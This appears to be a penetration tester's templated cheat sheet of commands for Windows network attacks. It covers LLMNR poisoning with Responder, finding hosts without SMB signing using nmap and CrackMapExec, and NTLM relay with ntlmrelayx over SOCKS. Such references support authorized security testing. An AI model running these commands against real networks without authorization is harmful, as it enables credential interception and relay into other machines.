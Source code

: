 # Spoofing

## Responder - LLMNR Poisoning

```
responder-http-on
responder-smb-on
responder -I <interface> -r -d -w
```

= interface: enp0s31f6

## SMB signing disabled - nmap

```
nmap -Pn --script smb-security-mode -p445 <target>
```

= target: ./targets/domain/computers.txt

## SMB signing disabled - cme

```
cme smb <target> --gen-relay-list <output_file>
```

= target: ./targets/domain/computers.txt

## Responder - Relay

```
responder-http-off
responder-smb-off
responder -I <interface> -r -d -w
```

= interface: enp0s31f6

## NTLM Relay with SOCKS

```
ntlmrelayx -tf <targets_file> -socks -smb2support
```

= targets_file: ./targets/domain/relay_targets_computers.txt
